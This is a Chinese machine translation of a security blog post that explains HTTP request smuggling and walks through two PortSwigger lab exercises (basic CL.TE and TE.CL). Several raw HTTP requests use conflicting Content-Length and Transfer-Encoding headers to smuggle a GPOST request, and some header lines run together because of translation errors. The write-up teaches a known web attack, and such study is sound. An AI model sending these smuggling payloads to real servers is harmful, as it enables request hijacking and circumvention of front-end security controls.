







# HTTP 请求走私解释和利用第 0x1 部分

> 原文：<https://infosecwriteups.com/http-request-smuggling-explained-and-exploited-part-0x1-89ce2956534f?source=collection_archive---------1----------------------->

嗨！我的名字是 Hashar Mujahid，今天我们将先睹为快请求走私漏洞。



所以让我们来看看什么是 HTTP 请求走私！

# 什么是 HTTP 请求走私？

HTTP 请求走私是一种利用技术，其中恶意请求被插入到原始请求中，然后由后端服务器处理。在这种攻击中，恶意请求被偷运和处理。

```
Content-Length and Transfer-Encoding 
```

报头在成功的 HTTP 请求走私攻击中起着重要的作用。

# HTTP 请求走私攻击会发生什么？

当应用程序的前端向后端发送请求时，它会同时发送来自其他用户的多个并行请求，所有这些请求都是通过同一个后端网络发送的。



多个用户通过相同的后端网络请求，颜色显示了边界

因此，前端和后端都知道一个请求在哪里结束，另一个请求在哪里开始是至关重要的。否则，攻击者可能会发送一个不明确的请求，前端和后端系统会对该请求做出不同的解释:



正如我们在上面的图片中看到的，攻击者发送了一个不明确的请求，被后端错误地解释，该请求成为了其他用户请求的一部分。

# HTTP 请求走私漏洞是如何产生的？

HTTP 协议提供了两个报头来表示 HTTP 请求的结束

> 内容长度
> 
> 传输编码

## **内容长度:**

内容长度以字节为单位指定请求的长度。

**例如:**

`Content-Length: 3421312`

## **传输编码:**

此标头指定邮件正文使用分块编码。区块大小以十六进制字节表示。如果块大小为 0 字节，则消息终止。

```
Transfer-Encoding: chunked
```

我们通常在服务器响应中看到这个头，因为一些服务器不支持这个头作为客户端请求。

如果前端和后端服务器在(可能混淆的)`Transfer-Encoding`头方面表现不同，那么它们可能在连续请求之间的边界上不一致，从而导致请求走私漏洞。

## **剥削:**

HTTP 走私攻击包括将`Content-Length`和`Transfer-Encoding`放在同一个请求中，这样前端和后端服务器就可以不同地处理请求。

# HTTP 走私攻击的类型:

*   **CL-TE:** 前端使用`Content-Length`，后端使用`Transfer-Encoding`。
*   **忒。CL:** 前端使用`Tranfer-Encoding`，后端使用`Content-Length`。
*   **忒。TE:** 前端和后端服务器都支持 Transfer-Encoding 头，但是可以通过以某种方式混淆头来说服其中一个服务器不处理它。

# CL。TE 漏洞:

这里前端服务器使用`Content-Length`头，后端服务器使用`Transfer-Encoding`头。我们可以执行简单的 HTTP 请求走私攻击，如下所示:

```
POST / HTTP/1.1 
Host: vulnerable-website.com 
Content-Length: 13 
Transfer-Encoding: chunked 0 

SMUGGLED
```

# 实验室:HTTP 请求走私，基本 CL。TE 脆弱性

本实验涉及前端和后端服务器，前端服务器不支持分块编码。前端服务器拒绝不使用 GET 或 POST 方法的请求。

为了解决这个实验，偷偷向后端服务器发送一个请求，这样后端服务器处理的下一个请求看起来使用了`GPOST`方法。

访问实验室:



将请求方法更改为 POST。

```
POST / HTTP/1.1
Host: 0a5c005b031de1e4c0ef4924003b00cb.web-security-academy.net
Cookie: session=HrbfSiDceLLxPD6b5u1w47m0v9R4xY3n
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
**Content-Length: 0 
ADD Transfer-Encoding:**
```

并修改请求。

```
POST / HTTP/1.1
Host: 0a5c005b031de1e4c0ef4924003b00cb.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Transfer-Encoding: **chunked****0****G**
```

将此请求发送两次，第一次响应应为 200 ok，第二次响应应为



我们可以看到服务器无法识别该方法，但是我们发送 POST 方法的方式就是响应显示 GPOST 的原因。

这是因为由于我们的头操作，服务器混淆了内容长度和传输编码，无法确定我们发送的第一个请求的结束，留下的数据被附加到下一个请求，这使得 POST 到 GPOST。

如果我们在第一个请求的 post 数据中发送 L，我们将在下一个请求的响应中得到一个 LPOST 错误。



# TE。CL 漏洞:

这里，前端服务器使用`Transfer-Encoding`报头，后端服务器使用`Content-Length`报头。我们可以执行简单的 HTTP 请求走私攻击，如下所示:

```
POST / HTTP/1.1 
Host: vulnerable-website.com 
Content-Length: 3 
Transfer-Encoding: chunked 8 
SMUGGLED
0
```

# 实验室:HTTP 请求走私，基础 TE。CL 漏洞

本实验涉及前端和后端服务器，后端服务器不支持分块编码。前端服务器拒绝不使用 GET 或 POST 方法的请求。

为了解决 lab，偷偷将一个请求发送到后端服务器，这样后端服务器处理的下一个请求就好像使用了方法`GPOST`。

我们需要创建一个错误

```
"Unrecognized method GPOST"
```

这一个在某种程度上也和前一个非常相似。

> 我们需要捕获 GET 请求。
> 
> 将 GET 方法更改为 POST。
> 
> 删除不必要的标题。

向请求添加`Transfer-Encoding: Chunked`头

添加我们的有效负载来创建错误。

```
**5c**  ===> 92 bytes
GPOST / HTTP/1.1 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 15 x=1 
0
```

但是最重要的是取消选中 repeater 中的“更新内容长度”。

```
POST / HTTP/1.1
Host: 0ad8008b037e46d8c01669a5007c004d.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15x=1
0
```

我们需要在结尾 0 后添加/r/n/r/n 序列。{ {只需按 enter 2wice}}。

将此请求发送两次，您会看到一个错误。



我们可以看到这里发生了同样的事情，恶意请求被留下，并与我们发出的第二个请求一起执行，这使它变成。

```
**GPOST / HTTP/1.1**
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
POST / HTTP/1.1
Host: 0ad8008b037e46d8c01669a5007c004d.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15x=1
0
```

这就是应用程序出错的原因。

在下一篇博客中，我们将学习如何开发 TE。TE 漏洞。

在那之前。快乐黑客❤.

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！